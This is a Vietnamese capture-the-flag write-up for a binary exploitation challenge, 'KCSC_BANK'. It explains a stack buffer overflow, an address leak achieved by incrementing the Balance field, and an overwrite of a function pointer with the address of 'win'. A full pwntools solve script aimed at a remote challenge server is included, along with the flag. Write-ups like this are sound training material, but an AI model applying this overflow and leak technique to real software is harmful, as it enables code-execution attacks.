








# KCSC_BANK

**Checksec**



## IDA



ta thấy sau khi tạo tài khoản và đăng nhập thì có 4 chức năng giờ ta tìm hiểu các hàm :



Ta thấy biến `Balance` nằm ngay sau biến buf, đồng thời địa chỉ thực thi hàm `funcViewBalance` nằm ngay sau đó



mà ta lại có lỗi `bof` ở đây, nghĩa là ta có thể thay đổi được giá trị của biến `Balance` và địa chỉ thực thi. 



Hàm này sẽ in ra chuỗi buf



Ta có hàm `win` trong binary giúp ta lấy được flag, mục tiêu là ta sẽ leak địa chỉ binary thông qua hàm `viewDescription`, rồi ghi đè địa chỉ của hàm `win` vào đó

Tuy nhiên như ta thấy ở hàm `changeDescription` thì chương trình sẽ thêm byte '0x00' ở cuối vậy nên chúng ta không thể leak ngay địa chỉ được



Lúc này mình để ý đến hàm `feedback` thấy rằng khi ta gửi feedback thì biến `Balance` được tăng lên

Vậy ý tưởng của mình sẽ là

- Truyền lần lượt từ 7 byte `0xff` -> 0 byte

- sau mỗi lần truyền xong thì dùng hàm `feedback` để tăng giá trị biến `Balance`. 

Ví dụ sau khi tăng thì `0x00ffffffffffffff` -> `0x0100000000000000`. Sau khi làm xong thì ta sẽ được biến `Balance` có giá trị `0x0101010101010101` thì khi sử dụng hàm `viewDescription` ta sẽ leak được địa chỉ binary. Từ đó ghi đè lên là xong:

## Solve Script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./bank', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+312

        c
        ''')
        sleep(1)

def fill_money(payload):
    sla("Choice: ",b'3')
    sa("New Description:",payload )
    sla("Choice: ",b'4')
    sl("yes")
if args.REMOTE:
    p = remote('67.223.119.69',5001)
else:
    p = process([exe.path])
GDB()

sla("Choice: ",b'1')
sla("Username: ",b'1')
sla("Password: ",b'1')
sla("Description: ",b'1')

sla("Choice: ",b'2')
sla("Username: ",b'1')
sla("Password: ",b'1')


payload = p64(0xffffffffffffffff)*2
payload += p32(0xffffffff)
payload += p16(0xffff)
payload += p8(0xff)

fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p32(0xffffffff)
payload += p16(0xffff)

fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p32(0xffffffff)
payload += p8(0xff)

fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p32(0xffffffff)


fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p16(0xffff)
payload += p8(0xff)


fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p16(0xffff)

fill_money(payload)

payload = p64(0xffffffffffffffff)*2
payload += p8(0xff)

fill_money(payload)

payload = p64(0xffffffffffffffff)*2

fill_money(payload)

sla("Choice: ",b'2')
p.recvuntil(b'\x01' * 8)
leak_addr = u64(p.recv(6)+b'\0\0')
info("leak_addr: "+ hex (leak_addr))
exe.address = leak_addr - 0x1684

payload = b'a'*0x18
payload += p64(exe.sym['win'])
sla("Choice: ",b'3')
sa("New Description:",payload )

sla("Choice: ",b'1')

p.interactive()

```



**FLAG**: `KCSC{vi_choi_pwn_24h/ngay_khien_toi_mat_mang,sau_khi_duoc_trung_sinh,toi_quyet_dinh_choi_pwn_25h/ngay_de_tra_thu_KCSC}`

